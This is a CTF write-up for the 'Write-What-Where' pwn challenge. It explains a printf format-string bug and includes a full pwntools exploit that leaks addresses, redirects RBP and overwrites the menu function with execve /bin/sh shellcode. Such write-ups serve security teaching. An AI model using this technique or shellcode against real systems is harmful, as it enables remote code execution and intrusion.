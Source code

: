 # Write-What-Where

Note : It goes without mentioning that my solution is a little more complicated & time-consuming debuggin-wise,<br>
but I enjoyed solving it this way, please refer to [the author's original write-up]() for the simpler intended solution.

# Description
The path is clear, but do you know how to get there<br>
Category: PWN
(The code was also provided)

# Why did my mind think this way?

Before solving this challenge, we worked on a reversing challenge that we solved using ChatGPT,<br>
it was just some assembly code comparing the input to the flag char by char, and I noticed that the RBP pointer (and not the RSP pointer)<br>
is the one used to calculate the offset of the buffer in the stack, (I knew this before, but because I saw it again, it registered in the back of my mind)<br>

# Discovery
![](./chall.png)

# Vulnerabilities
If we check the code, we notice that there is a format-string vulnerbility in the print_name function
```c
void print_name(char name[NAME_SIZE]){
    printf(name); // format string :)
}
```

# TL;DR

Technically we can exploit this vuln to overwrite some function code in the code segment with our own shellcode,<br>
but what i did was:
1 Overwrite the RBP pointer using the format-string, to make it point to the menu function in the code segment<br>
2 Use the get_name function to overwrite the menu function code in the code segment with our shellcode.<br>
3 When the menu function gets executed in the next loop iteration, a shell will be poped instead :)<br>

# Exploit

```python
#!/usr/bin/env python3
from pwn import *

exe = ELF("./chall")
context.binary = exe

shellcode = "\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"

def conn():
    return remote("write-what-where.ctf.shellmates.club", 443, ssl=True)


def main():
    for i in range(10):
        r = conn()

        # Leaking stack & code addresses
        r.recvuntil(b'Choice')
        r.sendline(b'1')
        r.sendline(b'%7$p\n%9$p')
        r.recvuntil(b'Choice:')
        r.sendline(b'2')
        rbp_addr = int(r.recvline().strip(), 16)  - 0x30
        menu_addr = int(r.recvline().strip(), 16) - 3
        log.info(f"Leaking base pointer address :: {hex(rbp_addr)}")
        log.info(f"Leaking menu function address :: {hex(menu_addr)}")

        r.recvuntil(b'Choice')
        r.sendline(b'1')

        # forming the format-string payload
        left = (menu_addr >> 32) - 12 #12 'a' at the start of the payload
        right = (menu_addr & 0xffffffff) - left #offset of aaaaaa and already written bytes

        s = f'aaaaaaaaaaaa%{str(left)}c%19$n%{str(right)}c%20$n'
        if len(s) != 40:
            log.info(f"bad payload length :: {len(s)}")
            print(s)
            r.close()
            continue

        # overwriting the RBP pointer with a menu function pointer (minus some offset)
        r.sendline(flat(b'aaaaaaaaaaaa%', str(left), b'c%19$n%', str(right), b'c%20$n', p64(rbp_addr+4), p64(rbp_addr)))
        r.recvuntil(b'Choice:')
        r.sendline(b'2')

        # Overwriting menu function code with shellcode using get_name option
        r.recvuntil(b'Choice:')
        r.sendline(b'1')
        r.sendline(flat(shellcode))
        r.interactive()


if __name__ == "__main__":
    main()
```
# Flag from tty

I ran my exploit on my second thinkpad (that had only arch installed with no display manager, because my main laptop was acting up)
![](../flag.jpg)
